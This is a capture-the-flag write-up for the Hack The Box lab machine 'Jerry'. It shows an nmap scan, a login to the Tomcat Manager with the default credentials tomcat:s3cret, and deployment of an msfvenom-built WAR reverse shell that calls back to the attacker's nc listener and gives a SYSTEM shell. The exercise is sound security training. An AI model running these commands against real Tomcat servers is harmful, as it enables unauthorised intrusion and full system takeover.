







# Hackthebox - Jerry

- Windows



- [Box on HTB](https://app.hackthebox.com/machines/Jerry)

## Nmap

```bash
┌─[gabrielle@parrot]─[~/Documents/toolbox]
└──╼ $nmap -Pn -T4 -sC -sV -p- --min-rate=1000 10.10.10.95
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-25 20:11 EDT
Nmap scan report for 10.10.10.95
Host is up (0.038s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.60 seconds
```

We only have one port open

## Port 8080



- In the meantime we can try to log in on Manager. admin password or admin:admin does not work.
- We get redirect here so I tried tomcat with a password of s3cret and it works

  

- We can now try to upload things here 



- Let's make a malicious war file with msfvenom and upload it `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war`
- `rlwrap nc -lvp 1234` we set up a listener
- We upload it and deploy it. We can see it here  



- We get a shell as authority system right away



- If we go to the Administrator's Desktop we have the user and the root flag in the same file  



- And we are done. Shortest writeup ever I think :laughing: :laughing: